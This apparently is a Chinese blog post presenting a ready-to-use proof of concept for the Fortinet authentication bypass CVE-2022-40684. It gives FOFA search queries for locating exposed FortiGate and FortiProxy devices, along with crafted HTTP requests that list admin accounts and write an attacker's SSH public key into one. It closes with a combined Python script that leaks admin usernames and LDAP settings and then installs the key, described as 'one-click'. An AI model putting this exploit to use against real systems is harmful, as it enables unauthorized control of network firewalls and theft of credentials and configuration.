 #  (自用POC)Fortinet-CVE-2022-40684

原创 老呆 [ 阿呆攻防 ](javascript:void\(0\);)

**阿呆攻防** ![]()

微信号 dai_attack

功能介绍 这是一个个人技术分享号，本人从Java转岗安全，会从各方面进行一些安全推送，不多介绍，自己看即可

____

___发表于_

收录于合集 #安全 7个



  

今天闲着没事研究了一下这个洞，但是看到Github得整合起来使用，于是我这里就整合一个版本，也只是属于漏洞复现的整合，平时也不拿nday挖洞，但是也只是为了遇到的时候用一个脚本方便些。任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益
。



01

漏洞简介  

  

Fortinet（飞塔）是一家全球知名的网络安全产品和安全解决方案提供商，其产品包括防火墙、防病毒软件、入侵防御系统和终端安全组件等。在受影响的FortiOS、FortiProxy
和
FortiSwitchManager产品的管理界面中，可以通过使用备用路径或通道绕过身份验证，并在未经认证的情况下通过特制的HTTP或HTTPS请求对管理界面进行操作。



02

风险等级  

  

高危



03

影响版本  

  

  * FortiOS  7.2.0 - 7.2.1

  * FortiOS  7.0.0 - 7.0.6

  * FortiProxy  7.2.0

  * FortiProxy  7.0.0 - 7.0.6

  * FortiSwitchManager  7.2.0

  * FortiSwitchManager  7.0.0



04

FOFA语法  

  

  *   * 

    
    
    title="FortiProxy“title="FortiGate"



05

POC  

  

  *   *   *   *   *   *   *   * 

    
    
    GET /api/v2/cmdb/system/admin HTTP/1.1Host: 目标User-Agent: Node.jsAccept-Encoding: gzip, deflateAccept: */*Hosts: 127.0.0.1:9980Forwarded: by="[127.0.0.1]:80";for="[127.0.0.1]:49490";proto=http;host=X-Forwarded-Vdom: root

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230309224536.png)

说明漏洞存在，获取用户名这个可以直接用现成脚本获取，然后生成自己的SSH公钥写入：  

  * 

    
    
    ssh-keygen -t rsa

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230309224538.png)

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    PUT /api/v2/cmdb/system/admin/用户名 HTTP/2Host: 目标User-Agent: Report RunnerAccept-Encoding: gzip, deflateAccept: */*Connection: closeForwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"Content-Length: 589Content-Type: application/json  
    {"ssh-public-key1": "\"公钥内容\""}

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230309224539.png)

这样可以算成功写入了。  



06

开源POC使用  

  

  *   * 

    
    
    https://github.com/carlosevieira/CVE-2022-40684/blob/main/exploit.pyhttps://github.com/horizon3ai/CVE-2022-40684/blob/master/CVE-2022-40684.py

在使用上先用carlosevieira师傅的获取用户名，然后将用户名作为参数给到horizon3ai师傅的脚本。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230309224540.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230309224542.png)



07

整合现有的POC  

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import argparseimport requestsimport urllib3import json requests.packages.urllib3.disable_warnings()urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
    def format_key(key_file):    with open(key_file) as f:        k = f.read().strip()  
        return(k)  
    def get_usernames(url):    headers = {        "user-agent": "Node.js",        "accept-encoding": "gzip, deflate",        "Host": "127.0.0.1:9980",        "forwarded": 'by="[127.0.0.1]:80";for="[127.0.0.1]:49490";proto=http;host=',        "x-forwarded-vdom": "root",    }    try:        r = requests.get(url + "/api/v2/cmdb/system/admin", headers=headers, verify=False)        if(r.status_code == 200):                        print("\033[92m[+] The target {} is vulnerable\033[0m".format(url))            data = json.loads(r.text)            for user in data['results']:                print("\033[93m[+]\033[0m Admin username: {}".format(user['name']))                print("\033[93m[+]\033[0m Level access: {}".format(user['accprofile']))            print("[+] Serial: {}".format(data['serial']))            print("[+] Version: {}".format(data['version']))  
                r = requests.get(url + "/api/v2/cmdb/user/ldap", headers=headers, verify=False)            data = json.loads(r.text)            if(len(data['results']) > 0):                print("[+] Leaking ldap config")                print("\033[93m[+]\033[0m LDAP server: {}".format(data['results'][0]['name']))                print("\033[93m[+]\033[0m LDAP server: {}".format(data['results'][0]['server']))                print("\033[93m[+]\033[0m LDAP binddn: {}".format(data['results'][0]['dn']))                print("\033[93m[+]\033[0m LDAP username: {}".format(data['results'][0]['username']))            return True    except Exception as exception:        print(exception)    return False  
    def get_shell(url, username, key_file):    headers = {        'User-Agent': 'Report Runner',        'Forwarded': 'for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"'    }    key = format_key(key_file)    j = {        "ssh-public-key1": '\"' + key + '\"'    }    url = f'{url}/api/v2/cmdb/system/admin/{username}'    try:        r = requests.put(url, headers=headers, json=j, verify=False)        if 'SSH key is good' in r.text:            print(f'[+] SSH key for {username} added successfully!')    except Exception as exception:        print(exception)  
    if __name__ == "__main__":    parser = argparse.ArgumentParser()    parser.add_argument('-u', '--url', help='URL路径', required=True)    args = parser.parse_args()    if args.url != '' and args.url != None:        is_vul = get_usernames(args.url)        if is_vul:            username = input("\033[91m[*]请输入用户名\033[0m:")            key_file = input("\033[91m[*]请输入SSH公钥id_rsa.pub路径\033[0m:")            get_shell(args.url, username, key_file)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230309224543.png)

搞定整合成一个了，这个洞就可以一键搜哈了。



  
  
  

喜欢就点个关注一起进步吧

  
  
  



  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

